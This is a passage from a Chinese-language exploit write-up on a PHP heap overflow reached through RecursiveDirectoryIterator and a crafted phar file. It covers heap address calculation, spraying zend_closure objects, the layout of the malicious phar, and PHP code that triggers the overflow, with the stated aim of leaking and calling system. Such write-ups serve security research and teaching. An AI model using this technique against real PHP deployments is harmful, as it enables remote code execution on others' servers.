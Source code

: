 ```php
<?php
$a = 0x10040;
$i = 0;
while ($a < 0x20080) {
    $a += 320;
    if (($a & 0xff) == 0x40) {
        echo dechex($a)."\n";
        $i++;
    }
    $j++;
}

echo $i;
```

换言之只要让`sub_path`指向到这`51`中的其中一个就可以了。其中`0x10040`和`0x20080`之间有`205`这样的 bins, 这样我们有`1/4`的概率让`sub_path`指向正确的地方。再换言之，我们平均只需要尝试 4 次，就可以做到，事实也是如此。这也是解决第二问题的方法。

所以比较在意是拿到形如`10040, 20080, 300c0...` 这其中的一个。比较好的想法是我们最好的**新的 chunk**上进行操作，这样避免了之前 memory layout 对我们的影响。那最好的想法就是连续申请超过一个 chunk 的相关内存结构。这样我们总可以落在**新的 chunk**上，并且是一定大概率覆盖上述地址。比如这里我们需要申请超过`0x1999`个`zend_closure`个，在利用中我使用了`2024` (毕竟今年是 2024 嘿嘿).

**增强 conditional write**

对于第一个问题，我们同样在 heap 上放置大量我们可控的内存结构。而对于第二个问题，我们同样进行多次尝试。这里有一个特别的是，第二个问题解决方案中的多次尝试是确定性的。因为 heap 上的内存结构我们可控，使得我们可以在指定的位置上放置特定的内容来帮助我们判定`sub_path`有没有指向正确的位置。比如我们希望`sub_path`正好落在地址`0x10040`上，其中`0x10040`是我们可控的。我们可以在`0x10040`处写入指定的字符串，在进行 UAF 之前，我们通过读取`sub_path`的内容，来确保`sub_path`是指向正确的。

#### 利用细节

大致路线：

1.  通过 conditional read 泄露`system`函数地址。
2.  通过 conditional write 将用户闭包函数修改为 native 函数`system`

**构造恶意的 phar**

其中 phar 文件结构如下，命名为`m2.phar`.

```plain
├── CCCCCCC...CCC├
                 ├── AAAA...AAA
                 ├── BBBBBB...BBBBB
```

-   `CCCCCCC...CCC`文件夹长度为`329` , 因为`zend_closure`是我们后面需要的重要结构，它的大小为`320`. 考虑结尾的 NULL 字符。
-   `AAAA...AAA` 正常文件和文件名。`RecursiveDirectoryIterator->__construct`会读取第一个文件作为预备，我不希望在这一步发生 overflow.
-   `BBBBBB...BBBBB`文件名长度为`4096`

**触发 overflow**

我们通过以下代码来触发 overflow

```php
$it = new RecursiveDirectoryIterator("phar://./m2.phar");

// 定位到 `CCCCCCC...CCC` 文件夹
foreach ($it as $file) {
    if($file->isDir()) {
    	break;
    }
}

// 创建关于 `CCCCCCC...CCC` 的 RecursiveDirectoryIterator, 其 sub_path 被初始化为 `CCCCCCC...CCC`, 长度为 320.
$sub_it = $it->getChildren();

// 读取 `CCCCCCC...CCC` 中文件，读取到 `BBBBBB...BBBBB` 时，触发 overflow, 将 sub_path 第 2 个字节写 NULL.
foreach($sub_it as $file) {}
```
